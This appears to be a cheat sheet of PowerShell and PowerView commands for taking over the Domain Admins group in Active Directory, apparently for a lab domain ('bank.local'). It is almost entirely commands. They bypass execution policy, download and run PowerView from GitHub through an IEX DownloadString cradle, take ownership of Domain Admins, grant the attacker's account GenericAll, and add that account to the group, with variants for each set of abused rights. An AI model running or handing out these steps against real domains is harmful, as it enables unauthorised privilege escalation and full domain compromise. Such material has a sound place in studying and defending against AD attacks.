 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

```bash
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

## Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
## Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

## 1. Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
## 2. Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission	Why Needed
- Modify owner	
- Modify permissions	
- Write properties	


---------------------------------------------------------------------------------
### with ✔ Modify permissions

```bash
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView

```
. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose